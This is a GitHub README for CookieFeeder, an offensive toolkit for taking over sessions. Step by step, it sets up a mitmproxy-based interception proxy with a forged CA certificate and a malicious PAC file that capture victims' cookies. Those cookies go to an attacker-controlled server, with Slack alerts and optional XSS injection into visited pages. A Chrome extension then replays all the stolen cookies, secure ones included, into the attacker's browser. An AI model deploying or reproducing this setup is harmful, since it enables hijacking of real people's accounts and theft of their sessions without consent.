 # CookieFeeder

CookieFeeder is a Chrome Extension designed to help in the process of cloning cookies from a compromised victim, by replicating the cookies from a remote log file into the browser. The extension will inject all cookies, including secured cookies, into all compromised websites without the need to have url opened.

## Server Setup

Follow this in case you want to do a full setup, including the server for capturing the cookies. Otherwise, skip to the next section.

1. Create an EC2/Lightsail instance. Install apache2, setup your domain and SSL certificates.

2. Clone the repository:
    ```
    git clone https://github.com/thiagomayllart/Blender
    pip3 install bs4 pycryptodome
    cd Blender/CookieFeeder
    ``` 
3. Install mitmproxy:
    ```
    apt install mitmproxy
    ```
4. Change `cert_gen.cnf` as you wish. This is the config file to create the CA certificate and key. Ideally you will only need to change the "dn" section with other information.
5. Run
    ```
    ./generate_certs.sh`
    ```
6. Save your `server.php` in your apache2 path (e.g. /var/www/html). You can change the filename, only ensure you have installed php mod in your apache2 server:
    ```
    apt install php libapache2-mod-php
    ```
7. Generate you IV and key:
    ```
    ./generate_key_iv.sh
    ```
8. Replace the KEY and IV in the `cookie_monitor.py` file:
    ```
    KEY = base64.b64decode('YOUR_KEY')
    IV = base64.b64decode('YOUR_IV')
    ```
9. Replace the PHP url in the `cookie_monitor.py` file. This should be the url of the server.php:
    ```
    SERVER_URL = 'https://YOUR_ENDPOINT/server.php'
    ```
10. Add your Slack Webhook for alerting upon new connections:
    ```
    SLACK_WEBHOOK_URL = 'https://ADD_HERE'
    ```
11. If you are injecting XSS in the pages, replace here:
    ```
    script.src = 'YOUR_SCRIPT_JS_URL';
    ```
12. Also replace this variable `WHITELISTED_HOST` with the url your XSS is stored.
13. Modify the `your_proxy_domain` in the settings.pac file. This should be the endpoint you will be running your proxy. Ideally, the proxy and the apache2 should be in the same server, thus, the domain should be the same.
14. Store your settings.pac file (and change the name) in the root of your apache web server.
15. Start the proxy:
    ```
    mkdir logs
    mkdir /var/www/html/cookies/
    mitmdump -s cookie_monitor.py --set stream_large_bodies=1m --set flow_detail=0 --set max_flow_size=100m --set connection_strategy=lazy --set block_global=false -p 8080
    ```

## Extension Setup

1. Clone the repository:
```
git clone https://github.com/thiagomayllart/CookieFeeder
```
2. Create a new Chrome Profile. This is useful to avoid overwriting or conflicting with your actual cookies.
```
Customize and Control Google Chrome -> Select the current Profile -> Add new profile
```
3. Install CookieFeeder. 
4. You should have already created your key/IV from the previous section, if not, run `generate_key_iv.sh`. Using those keys, replace `YOUR_KEY` and `YOUR_IV` in CookieFeeder/cookiefeeder/background.js.
    - a. ```Navigate to chrome://extensions/```
    - b. ```Select "load unpacked"```
    - c. ```Select the cookiefeeder directory inside the clone repository```
    - d. ```Extension will be added to Chrome```

5. Click on the extension icon, input the Cookies URL and click on Save. Wait a few seconds as the cookies will be synchronized with your Chrome profile.

